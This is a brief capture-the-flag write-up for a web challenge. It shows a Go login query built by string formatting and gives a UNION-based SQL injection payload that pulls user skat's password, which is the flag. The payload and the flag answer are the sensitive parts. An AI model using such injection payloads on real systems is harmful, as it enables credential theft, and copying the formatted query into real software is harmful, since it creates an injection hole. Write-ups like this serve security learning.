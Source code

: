 ## What's My Password? (Web)

## Problem

[baby] Oh no! Skat forgot their password (again)!
 
Can you help them find it?

![](screen1.png)

## Solution

### setup.sql

From `setup.sql` we know that flag is stored as a password for user `skat`:
```sql
CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");
```

### main.go

In `main.go`, there is an SQL Injection vulnerability in line 65:

```go
qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
```

To obtain the flag, we can use following payload as password:

```
password" or 1=2 union select username,password from users where username="skat"-- - 
```

Flag: `irisctf{my_p422W0RD_1S_SQl1}`
